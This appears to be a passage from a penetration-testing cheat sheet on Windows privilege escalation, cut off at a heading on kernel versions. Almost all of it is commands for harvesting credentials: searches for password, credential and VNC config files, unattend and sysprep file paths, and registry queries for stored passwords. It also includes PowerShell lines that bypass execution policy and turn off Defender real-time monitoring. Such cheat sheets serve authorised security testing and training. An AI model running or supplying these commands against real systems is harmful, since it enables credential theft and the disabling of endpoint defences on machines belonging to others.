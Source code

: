 * Find strings in `.config` files

```
dir /s *pass* == *cred** == *vnc* == *.config*
```

* Find all passwords in all files

```
findstr /spin "password" *.*
```

* Password files that could have base64 encoded credentials&#x20;

```
Unattended files
C:\Windows\sysprep\sysprep.xml
C:\Windows\sysprep\sysprep.inf
C:\Windows\sysprep.inf
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\System32\Sysprep\unattend.xml
C:\Windows\System32\Sysprep\unattended.xml
C:\unattend.txt
C:\unattend.inf
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul

dir C:\*.vnc.ini /s /b
dir C:\*ultravnc.ini /s /b
dir C:\ /s /b | findstr /si *vnc.ini
```

### Search Registry for Passwords

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Powershell

```
powershell.exe -nop -ep bypass    
Get-ExecutionPolicy    
Set-ExecutionPolicy Unrestricted   
Set-MpPreference -DisableRealtimeMonitoring $true   
```

* Powershell history

```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

#### Windows Kernel Versions
